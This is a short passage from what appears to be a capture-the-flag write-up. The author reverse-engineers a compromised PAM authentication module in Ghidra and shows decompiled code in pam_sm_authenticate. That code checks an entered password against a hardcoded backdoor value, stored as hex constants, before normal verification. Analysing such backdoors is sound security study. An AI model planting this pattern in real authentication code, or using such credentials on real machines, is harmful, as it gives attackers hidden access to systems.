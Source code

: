 
![ghirda](/images/compromised/ghirda.png)


we got an intresting function `pam_sm_authenticate`.
here we got two backdoor strings and `_unix_verify_password` after string.
so this must be creds seten for backdoor  after compromising the machine.

```shell
        if (iVar2 == 0) {
          backdoor._0_8_ = 0x4533557e656b6c7a;
          backdoor._8_7_ = 0x2d326d3238766e;
          local_40 = 0;
          iVar2 = strcmp((char *)p,backdoor);
          if (iVar2 != 0) {
            iVar2 = _unix_verify_password(pamh,name,(char *)p,ctrl);
          }
```
lets convert these tow backdoor string into char sequence.
we can do it in ghidra , right click on the string and convert.

![ghirda](/images/compromised/convert.png)
